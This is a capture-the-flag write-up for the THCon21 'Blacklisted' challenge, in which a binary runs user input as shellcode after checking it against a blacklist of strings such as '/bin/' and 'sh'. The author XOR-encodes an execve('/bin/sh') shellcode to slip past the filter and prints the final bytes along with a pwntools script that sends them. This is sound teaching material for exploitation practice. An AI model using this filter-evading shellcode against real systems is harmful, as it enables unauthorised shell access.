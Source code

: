 ```yaml
---
title: "THCon21 - Blacklisted"
date: 2021-06-14T16:29:05+02:00
draft: true
tags: [pwn]
# image: "/image/blog-pic.jpg"
description: "A shellcoding challenge from THCon21"
showDate: true          # to enable/disable showing dates
math: true              # to enable showing equations (katex)
---
```


# THCon21 - Blacklisted

[Go back to write-ups list](../)

> **Category:** Intro
> 
> **Creator:** Voydstack
> 
> **Description:**
> 
> Don't say the magic word !
> 
> **Attachments:**
> - [blacklisted](/files/thcon21/blacklisted)

## Analysing the binary

The attachment is an ELF x64 binary. I opened it in IDA and went to the `main` function. It basically calls `check_blacklist` on the user input, and if it returns 0,the user input will be executed as a shellcode.

*Note: the maximum length for the shellcode is 64 bytes*

Here is the `check_blacklist` function:

![check_blacklist function](/image/thcon21/check_blacklist.png)

And here is the blacklist that comes with it:

![The blacklist](/image/thcon21/blacklist.png)

As you can see, we can't use the words `"/bin/"`, `"/tmp/"`, `"flag.txt"` and `"sh"`, which is kind of annoying considering that most shellcodes just put `/bin/sh` in the right register and call the `execve` shellcode.

## Shellcoding

The first thing I did was to copy a basic x86_64 execve('/bin/sh') shellcode which I found [here](https://www.exploit-db.com/exploits/42179). Now to edit the shellcode, I used an online tool (because I love online tools) to [disassemble from hex and assemble to hex online](https://defuse.ca/online-x86-assembler.htm) which is perfect for shellcoding (and it supports 32-bit and 64-bit). I got this assembly code:

```asm
push   rax
xor    rdx,rdx
xor    rsi,rsi
movabs rbx,0x68732f2f6e69622f

push   rbx
push   rsp
pop    rdi
mov    al,0x3b
syscall
```

The thing moved in rbx is the hexadecimal representation of `hs//bin/` which will make the final shellcode contain both `/bin/` and `sh`, so we need to find a way to prevent this.

I decided to put in the shellcode the string `hs//bin/` xored with `0x4242424242424242` instead of putting it in plain. Now I would just need to xor it with the same value in the shellcode to recover the original string in the register. Here is how I did:

```asm
push   rax
xor    rdx,rdx
xor    rsi,rsi
movabs rbx,0x2a316d6d2c2b206d ; path xored with 0x42
movabs rax,0x4242424242424242 ; xor key
xor    rbx,rax                ; we can't xor rbx with a 64 bits value directly
                              ; so we put the value in rax first
push   rbx
push   rsp
pop    rdi
xor    rax,rax
mov    al,0x3b
syscall
```

*Note: since we altered `rax` to store our xor key, we need to reset rax before setting `al`, because the `syscall` instruction seems to use the entire `rax` registry instead of just `al`*

This gives us our final shellcode :
```
\x50\x48\x31\xD2\x48\x31\xF6\x48\xBB\x6D\x20\x2B\x2C\x6D\x6D\x31\x2A\x48\xB8\x42\x42\x42\x42\x42\x42\x42\x42\x48\x31\xC3\x53\x54\x5F\x48\x31\xC0\xB0\x3B\x0F\x05
```

And here is a little Python script using pwntools to send the shellcode to the remote challenge:

```py
from pwn import *

conn = process("./blacklisted")

conn.recv()
conn.send("\x50\x48\x31\xD2\x48\x31\xF6\x48\xBB\x6D\x20\x2B\x2C\x6D\x6D\x31\x2A\x48\xB8\x42\x42\x42\x42\x42\x42\x42\x42\x48\x31\xC3\x53\x54\x5F\x48\x31\xC0\xB0\x3B\x0F\x05")
conn.interactive()
```

![Script execution](/image/thcon21/blacklisted_solved.png)

[Go back to write-ups list](../)
